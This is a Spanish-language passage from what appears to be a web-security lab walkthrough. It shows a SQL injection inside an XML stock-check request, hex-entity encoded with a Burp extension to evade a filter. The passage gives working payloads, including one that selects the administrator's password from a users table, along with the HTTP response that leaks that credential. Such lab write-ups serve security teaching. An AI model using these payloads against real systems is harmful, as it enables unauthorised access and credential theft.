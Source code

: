 Una vez instalada nos volvemos a donde tenemos el codigo, seleccionamos el codigo `1 union select NULL-- -`, click derecho, nos vamos a la opcion que pone `Extensiones`, de ahi vamos a `Hackvector`, nos vamos a `Encode` y dentro de esta opcion habra varias codificaciones, en mi caso elijo la llamada `hex_entities`, se nos quedara de esta manera...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
			1 union select NULL-- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

Con esto ahora si va a funcionar ese comando y sabiendo que funciona ese comando hacemos lo siguiente...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
			1 union select password from users where username='administrator'-- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

Info:

```html
HTTP/2 200 OK

Content-Type: text/plain; charset=utf-8

X-Frame-Options: SAMEORIGIN

Content-Length: 30



182 units
jc9kmc948berlabi1y60
```

> credentials
